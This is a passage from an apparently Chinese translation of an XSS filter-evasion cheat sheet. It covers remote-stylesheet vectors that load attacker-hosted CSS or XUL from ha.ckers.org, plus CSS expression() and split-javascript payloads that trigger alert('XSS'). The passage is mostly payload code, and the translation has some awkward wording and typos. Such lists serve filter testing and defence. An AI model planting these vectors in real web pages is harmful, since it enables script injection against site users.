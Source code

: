 ## 远程样式表

（通过某些方式例如最简单的远程样式表，你可以插入一个样式参数为嵌入表达式的 xss 代码）。它是仅仅工作在 IE 浏览器或是使用了 IE 渲染引擎的 Netscape 8.1+。需要注意的是页面中并没有展现出它包含了 javascript 代码。注意：所有的远程样式表示例需要至少用到 body 标签，负责将无法工作除非页面中包含除了向量本身的其他内容。因此你需要添加至少一个字母到页面确保他可以工作如果它是一个空白页面。

```
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">
```

## 远程样式表 2

他的工作原理与上面相同。但是使用了 STYLE 标签代替 LINK 标签。榆次向量稍有不同的变异被用于攻击 Google Desktop。你可以移除 </STYLE> 标签当后面的 html 去闭合它。这个向量是有用的在不允许输入等号或是反斜杠的实际环境中。

```
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
```

## 远程样式表 3

它仅仅可以工作在 Opera 8.0 (no longer in 9.x) ，但是是非常的狡猾。 Opera 8.0 (no longer in 9.x) 。根据 RFC2616 规定，设置一个连接头不是 HTTP1.1 规定的一部分，但是很多浏览器仍然允许它（例如 Firefox and Opera）。这个技巧是我们可以设置一个 http 头（与常规 http 头没有什么不同，只是 Link: [http://ha.ckers.org/xss.css](http://ha.ckers.org/xss.css) ; REL=stylesheet）。这样带有 xss 代码的远程向量将运行 javascript。他并不被支持在 FireFox。

```
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
```

## 远程样式表 4

它是仅仅工作在 Gecko 渲染引擎。并且需要绑定一个 XUL 文件在页面。令人讽刺的是 Netscape 认为 Gecko 是更加安全的，因此绝大多是网站会受到这个攻击。

```
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
```

## 分隔 javascript 在 STYLE 标签

这个 xss 在 ie 浏览器中会造成无线循环

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

## STYLE 属性中使用注释去分隔表达式

提出被 Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

## IMG 样式的表达式

